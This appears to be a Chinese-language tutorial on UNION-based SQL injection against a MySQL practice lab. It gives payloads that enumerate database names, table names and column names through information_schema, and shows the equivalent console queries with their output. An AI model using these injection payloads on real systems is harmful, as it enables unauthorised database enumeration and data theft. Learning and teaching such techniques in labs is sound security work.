 - 1、获取到所有的数据库名称

`union select 1,group_concat(schema_name),3 from information_schema.schemata`<br />备注：GROUP_CONCAT函数将分组中的字符串与各种选项进行连接。  <br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623982909593-efe1bb93-78de-4f58-b692-22004535b072.png#clientId=u036edfef-3b9a-4&from=paste&height=256&id=ufaf9bd57&originHeight=460&originWidth=1331&originalType=binary&ratio=2&rotation=0&showTitle=false&size=357006&status=done&style=none&taskId=u244c751b-72a4-429b-8c8e-7403ebbefbc&title=&width=739.5)<br />等同于在数据库中执行以下命令
```bash
mysql> use security;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SELECT * FROM users WHERE id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata  LIMIT 0,1;
+----+----------------------------------------------------------------------+----------+
| id | username                                                             | password |
+----+----------------------------------------------------------------------+----------+
|  1 | information_schema,book,challenges,mysql,performance_schema,security | 3        |
+----+----------------------------------------------------------------------+----------+
1 row in set (0.00 sec)

mysql>

```

- 2、指定获取book库中的表名信息

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623983500040-9ffff73e-3511-4af1-b6c0-9f3296f8c5d6.png#clientId=u036edfef-3b9a-4&from=paste&height=209&id=udc018111&originHeight=356&originWidth=1272&originalType=binary&ratio=2&rotation=0&showTitle=false&size=41749&status=done&style=none&taskId=uafea050b-d1f5-40f0-b00d-5f2e91d8b36&title=&width=746)`union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='book'`

等同于在数据库中执行以下命令
```bash
mysql> SELECT * FROM users WHERE id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='book'  LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | book     | 3        |
+----+----------+----------+
1 row in set (0.00 sec)

mysql>
```

- 3、获取指定数据库book下的book表的列名信息

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623984150615-9e604864-13fc-4997-97fa-3ca560f892a1.png#clientId=u036edfef-3b9a-4&from=paste&height=269&id=u7c345359&originHeight=462&originWidth=1287&originalType=binary&ratio=2&rotation=0&showTitle=false&size=351146&status=done&style=none&taskId=u839c92e6-099b-48e5-8f1c-45c261b1db5&title=&width=750.5)<br />`union select 1,group_concat(column_name),3 from information_schema.columns where table_name='book' and table_schema='book'`<br />等同于以下的数据库命令
```bash
mysql> use security;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> SELECT * FROM users WHERE id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='book' and table_schema='book'  LIMIT 0,1;
+----+------------------------------------------------+----------+
| id | username                                       | password |
+----+------------------------------------------------+----------+
|  1 | book_id,book_title,book_author,submission_date | 3        |
+----+------------------------------------------------+----------+
1 row in set (0.00 sec)

mysql>

```
